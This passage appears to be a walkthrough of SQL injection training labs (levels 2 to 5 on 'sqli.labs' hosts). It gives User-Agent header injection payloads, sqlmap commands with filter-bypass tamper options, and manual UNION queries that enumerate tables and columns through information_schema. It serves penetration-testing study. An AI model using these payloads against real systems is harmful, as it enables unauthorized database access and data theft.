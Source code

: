 ```bash
GET / HTTP/1.1
Host: 2.sqli.labs
User-Agent: ' or 'elscustom'='elscustom
```
SQLMap:
```bash
sqlmap -u 'http://2.sqli.labs/' -p user-agent --user-agent=elsagent --technique=B --banner
```
## Level 3
Spaces are filtered.
PoC:
```bash
GET / HTTP/1.1
Host: 3.sqli.labs
User-Agent: '/**/UNION/**/SELECT/**/@@version;#
```
SQLMap:
```bash
sqlmap -u 'http://3.sqli.labs/' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' --union-char=els --banner
```
## Level 4
Comments non longer work.
PoC:
```bash
GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'UNION(select('PoC String'));#
```
We cannot easily automate this task, as sqlmap should balance the parentesis.
To exploit by hand you have to first find the tables in the current database:
```bash
GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: \'union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#
```
Then you can enumarate the columns:
```bash
GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: \'union(SELECT(group_concat(column_name))FROM(information_schema.columns)where(table_name='secretcustomers'));#
```
## Level 5
This is similar to SQLi 4, but the developer used doublequotes around strings.
PoC:
```bash
GET / HTTP/1.1
Host: 5.sqli.labs
User-Agent: \"UNION(select('PoC String'));#
```
To exploit by hand you have again to find the tables in the current database:
```bash
GET / HTTP/1.1
Host: 5.sqli.labs
User-Agent: \"union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#
```
## Level 6